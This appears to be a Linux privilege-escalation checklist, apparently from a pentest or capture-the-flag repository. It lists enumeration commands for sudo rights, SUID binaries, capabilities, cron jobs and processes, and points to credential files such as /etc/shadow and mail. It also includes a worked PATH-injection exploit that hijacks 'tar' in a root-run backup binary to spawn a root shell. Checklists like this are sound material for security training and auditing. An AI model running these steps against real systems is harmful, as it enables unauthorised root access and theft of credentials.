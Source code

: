 ## Check History:
```bash
history
```

## Check what you can run as SUDO:
```bash
sudo -l
```
## SUID binaries [GTFOBins](https://gtfobins.github.io/):
```bash
find / -perm u=s 2>/dev/null
find / -perm /4000 2>/dev/null
```

## Capabilities [GTFOBins](https://gtfobins.github.io/):
```bash
getcap -r / 2>/dev/null
```

## List open ports:
```bash
ss -tulp
```

## List active processes:
```bash
ps -aux
```

## Spy on processes:
```bash
pspy
```

## Look for cronjobs:
```bash
crontab -l

cat /etc/crontab

ls -l /etc/cron.d

ls -la /etc/cron.hourly
```

## Look for unusual files :
- .txt
- .db
- .yaml
- .log
- .conf
- .old
```bash
find . -name '*.txt' 2>/dev/null
```

## Check Kernel Version:
```bash
uname -a
cat /proc/version
cat /etc/os-release
```

## Check for Weak File Permissions:
```bash
ls -la /etc/passwd
ls -la /etc/shadow
ls -la /etc/sudoers
```

## Path injection:
```bash
# This command is runned as sudo from a binary /usr/bin/pandora_backup
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*

#We can change the path for tar with a bash binary
echo "/bin/bash" > /var/tmp/tar
chmod +x /var/tmp/tar
export PATH=/var/tmp:$PATH
/usr/bin/pandora_backup
```
## Check if you are in a container:
- Environment variables
```bash
env
```
- Multiple interfaces:
```bash
ipconfig
```

## Check for Docker Privileges:
```bash
docker ps -a
groups
```

## Important files:
- /etc/passwd
- /etc/shadow
- maybe there are mails in /var/mail ...

## Check for password managers:
Examples:
- pswm in ".local"
